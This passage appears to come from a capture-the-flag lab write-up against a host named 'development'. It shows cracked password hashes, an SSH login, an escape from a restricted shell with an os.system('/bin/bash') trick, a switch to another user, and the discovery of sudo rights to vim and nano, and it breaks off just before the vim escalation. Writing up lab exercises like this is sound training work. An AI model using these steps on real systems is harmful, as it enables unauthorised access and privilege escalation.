 ```python

if __name__=="__main__":
    for hash in hashes:
        cracked=decrypt(hash)
        if cracked:
            print(f"{hash}: {cracked}")
```

We execute the script and obtain the passwords.

```console
root@kali:~$ ./decrypt.py 
4a8a2b374f463b7aedbb44a066363b81: 12345678900987654321
87e6d56ce79af90dbe07d387d3d0579e: P@ssw0rd25
ee64497098d0926d198f54f6d5431f98: qiu
```

We log in to ssh with the username **intern** and password **12345678900987654321** and we have access to a limited shell, to scape this we execute the instruction as shown below: 

```console
root@kali:~$ ssh intern@192.168.179.130 
intern@192.168.179.130's password: 
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
intern:~$ echo os.system("/bin/bash")
intern@development:~$ 
```

I tried to access via ssh with the **patrick** user but he was not allowed, so from the **intern** user I changed to the **patrick** user with the password **P@ssw0rd25**, listing the sudo permissions for this user I found that he was allowed run nano and vim.

```console
intern@development:~$ su patrick
Password: 
patrick@development:/home/intern$ 
patrick@development:~$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
patrick@development:~$ 
```

## Privilege Escalation
### Sudo Permissions
**Privilege scalation with vim**

To escalate privileges with vim we will abuse its ability to execute commands, as shown below:
